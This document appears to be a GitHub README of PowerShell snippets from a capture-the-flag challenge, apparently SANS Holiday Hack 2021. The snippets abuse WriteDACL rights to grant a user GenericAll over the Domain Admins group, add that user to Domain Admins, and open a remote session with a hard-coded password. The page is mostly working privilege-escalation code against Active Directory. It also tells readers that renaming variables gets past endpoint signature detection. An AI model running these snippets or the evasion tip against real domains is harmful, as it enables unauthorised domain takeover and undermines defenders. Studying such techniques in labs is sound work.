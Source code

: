 # hhc21_powershell_snippets

These snippets show you how you can read and write to Active Directory group objects DACLs. This also demonstrates using PowerShell to add an account to a AD group.

**Note:** These code snippets (or similar) are used legitimately by many powershell apps and as such will likely not trip endpoint protections. However, if for some reason they do in the future, it will likely be due to signature matching which can be overcome by changing variable names around.

### You can read the DACL of an AD group object using:

``` powershell
# Can Use Powerview: https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
# Or:
$ADSI = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=vulns,DC=local"
$ADSI.psbase.ObjectSecurity.GetAccessRules($true,$true,[Security.Principal.NTAccount])
# Or:
$ldapConnString = "LDAP://CN=Domain Admins,CN=Users,DC=vulns,DC=local"
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
$domainDirEntry.get_ObjectSecurity().Access
```

### In the below example, the "GenericAll" permission for the "chrisd" user to the "Domain Admins" group if the user your running it under has the "WriteDACL" permission on the "Domain Admins" group.

``` powershell
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Domain Admins,CN=Users,DC=vulns,DC=local"
$username = "chrisd"
$nullGUID = [guid]'00000000-0000-0000-0000-000000000000'
$propGUID = [guid]'00000000-0000-0000-0000-000000000000'
$IdentityReference = (New-Object System.Security.Principal.NTAccount("vulns.local\$username")).Translate([System.Security.Principal.SecurityIdentifier])
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::None
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference, ([System.DirectoryServices.ActiveDirectoryRights] "GenericAll"), ([System.Security.AccessControl.AccessControlType] "Allow"), $propGUID, $inheritanceType, $nullGUID
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
$secOptions = $domainDirEntry.get_Options()
$secOptions.SecurityMasks = [System.DirectoryServices.SecurityMasks]::Dacl
$domainDirEntry.RefreshCache()
$domainDirEntry.get_ObjectSecurity().AddAccessRule($ACE)
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
```

### After giving "GenericAll" permissions over the "Domain Admins" group, the below snippet would add the chrisjd account to the "Domain Admins" group:

``` powershell
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Domain Admins,CN=Users,DC=vulns,DC=local"
$username = "chrisd"
$password = "Password!@12"
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString, $username, $password
$user = New-Object System.Security.Principal.NTAccount("vulns.local\$username")
$sid=$user.Translate([System.Security.Principal.SecurityIdentifier])
$b=New-Object byte[] $sid.BinaryLength
$sid.GetBinaryForm($b,0)
$hexSID=[BitConverter]::ToString($b).Replace('-','')
$domainDirEntry.Add("LDAP://<SID=$hexSID>")
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
```

### Added bonus, here is how you can `Enter-PSSession` into a remote computer:

``` powershell
$password = ConvertTo-SecureString "Password!@12" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList ("vulns.local\chrisd", $password)
Enter-PSSession -ComputerName WIN-4JFNT305Q5J.vulns.local -Credential $creds -Authentication Negotiate
```
